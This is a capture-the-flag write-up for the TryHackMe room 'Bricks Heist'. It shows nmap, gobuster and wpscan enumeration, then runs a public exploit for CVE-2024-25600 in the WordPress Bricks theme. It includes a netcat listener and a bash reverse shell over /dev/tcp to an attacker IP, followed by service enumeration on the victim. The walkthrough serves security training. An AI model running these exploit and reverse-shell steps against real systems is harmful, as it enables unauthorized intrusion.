 # TryHack3M: Bricks Heist

#### Add hostname to host file <a href="#add-hostname-to-host-file" id="add-hostname-to-host-file"></a>

```
echo $VICTIM bricks.thm  >> /etc/hosts
cat /etc/hosts
```

## &#x20;<a href="#scans" id="scans"></a>

## **Scans** <a href="#scans" id="scans"></a>

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/80 - HTTP**

**Kali**

```
gobuster dir -u http://bricks.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

## **TCP/443 - HTTPS**

**Kali**

```
gobuster dir -k -u https://bricks.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```







<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
wpscan --url https://bricks.thm/ --disable-tls-checks
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
git clone https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT.git
cd CVE-2024-25600-EXPLOIT/
python CVE-2024-25600.py -u https://bricks.thm/
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Shell <a href="#initial-shell" id="initial-shell"></a>

**Kali**

```
nc -lvnp 1337
```



**Kali(Shell)**

```
bash -c 'exec bash -i >& /dev/tcp/10.10.181.161/1337 0>&1'
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
systemctl list-units --type=service --state=running
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
systemctl cat ubuntu.service
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

